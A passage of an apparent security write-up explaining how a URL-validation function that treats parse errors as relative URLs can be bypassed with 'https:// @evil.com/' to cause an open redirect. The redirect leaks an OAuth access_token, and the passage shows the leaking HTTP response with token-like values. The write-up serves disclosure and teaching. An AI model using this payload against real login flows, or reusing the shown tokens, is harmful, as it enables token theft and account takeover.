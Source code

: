 The `isAbsolute` function receives a `url` and first checks if it starts with `//` because that will translate to `http://whatever`, let's check some examples from the [RFC 3986](https://www.rfc-editor.org/rfc/rfc3986) for the URI syntax :

```
"g:h"           =  "g:h"
"g"             =  "http://a/b/c/g"
"./g"           =  "http://a/b/c/g"
"g/"            =  "http://a/b/c/g/"
"/g"            =  "http://a/g"
"//g"           =  "http://g"
"?y"            =  "http://a/b/c/d;p?y"
"g?y"           =  "http://a/b/c/g?y"
"#s"            =  "http://a/b/c/d;p?q#s"
"g#s"           =  "http://a/b/c/g#s"
"g?y#s"         =  "http://a/b/c/g?y#s"
";x"            =  "http://a/b/c/;x"
"g;x"           =  "http://a/b/c/g;x"
"g;x?y#s"       =  "http://a/b/c/g;x?y#s"
""              =  "http://a/b/c/d;p?q"
"."             =  "http://a/b/c/"
"./"            =  "http://a/b/c/"
".."            =  "http://a/b/"
"../"           =  "http://a/b/"
"../g"          =  "http://a/b/g"
"../.."         =  "http://a/"
"../../"        =  "http://a/"
"../../g"       =  "http://a/g"
```

If it starts with only a `/` is not an absolute URL, and then it passes the `url` to the `URI` class. The catch here is that if `URISyntaxException` is raised the function will return `false`, telling that the URL is not absolute and then redirecting the user. At first glance this looks okay, because if an URL is not valid why would the redirect work, right ? Wrong! This only works if the client actually doing the redirect, the browser in this case, complies with the RFC and Chrome does NOT, wtf. Now we need to find an absolute URL that is not valid but that Chrome accepts on the `Location` header.

I did some fuzzing and some manual testing and ended up with `https:// @evil.com/`, note the space. This is not a valid URL by the RFC: 

```
unreserved  = ALPHA / DIGIT / "-" / "." / "_" / "~"
pct-encoded = "%" HEXDIG HEXDIG
sub-delims  = "!" / "$" / "&" / "'" / "(" / ")"
                  / "*" / "+" / "," / ";" / "="
userinfo    = *( unreserved / pct-encoded / sub-delims / ":" )
authority   = [ userinfo "@" ] host [ ":" port ]
```

No whitespace in the `userinfo`. This will end up on the `catch` statement, bypassing the check and redirecting the user to `evil.com`, leaking the `access_token`.

```http
HTTP/2 302 Found
Date: Sat, 14 May 2022 04:08:37 GMT
Content-Type: text/html
Location: https:// @evil.com/#%7B%22access_token%22%3A%22ghu_eEEIwuwg1GN1FwidVj4TS4pAa8plEc02asJs%22%2C%22expires_in%22%3A28800%7D
Set-Cookie: auth-state= ;path=/github2; expires=Thu, 01 Jan 1970 00:00:00 UTC; Secure; HttpOnly; SameSite=none
Set-Cookie: auth-tokenIv1.98d62f0431e40543=ghr_MRUNjYWPUiKUDKFlQTxcT6442q0L6l6LdWcKf9XBqeYZV3bYYhMyaX6fYJV8kuKk1WRO6Y4gQHzK; Max-Age=31536000;path=/github2; Secure; HttpOnly; SameSite=none
X-Cloud-Trace-Context: 766df5ad8123a0fa5701fc92aec830d4
Cf-Cache-Status: DYNAMIC
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Strict-Transport-Security: max-age=31536000; includeSubDomains
```